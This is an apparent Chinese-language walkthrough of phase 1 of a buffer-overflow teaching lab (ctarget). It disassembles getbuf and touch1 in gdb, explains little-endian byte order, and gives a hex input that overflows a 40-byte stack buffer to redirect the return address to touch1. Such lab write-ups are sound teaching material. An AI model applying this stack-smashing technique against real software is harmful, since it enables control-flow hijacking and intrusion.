 1. 在`test()`中调用了`getbuf()`，输入字符串后，正常退出时，会执行`exit(0)`的方法。

```gdb
gdb ctarget;
```

2. 之后，我们调用

```bash
disas getbuf
```

得到：

```bash
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq  
```

> 从这里我们可以得到在getbuf中分配了0x28=40个字节的空间

3. 查看`touch1()`的地址

```bash
disas touch1
```

```bash
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
```

> 得到touch1()的地址是`0x4017c0`

得到以上需要的信息后，构建输入字符，来填充栈。因为我们的目的值返回`touch1()`，因此输入任意字符串均可，但是在最后需要填充`touch1()`的地址

目前大部分电脑采用的都为`little-endian`「小端序」的机器，低位在低位，高位于高位，因此我们这里需要逆着输入文本，即后8位的地址为`c0 17 40 00` 

> 在[`endian`排序](https://blog.csdn.net/xiangguiwang/article/details/70036637)中，看的是有效位的级别进行排序，不是<font color=red>**数值大小**</font>。
>
> 如在原先的地址中最高有效位为00，c0则为最低有效位，小端序中反过来有：
>
> 此时的最高位为c0，最低位为00，其他位置跟着逆序，而不是按照大小来排

因此在这里我们需要输入的文本除了input的40个字节外，加上之后的8位字节即为

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

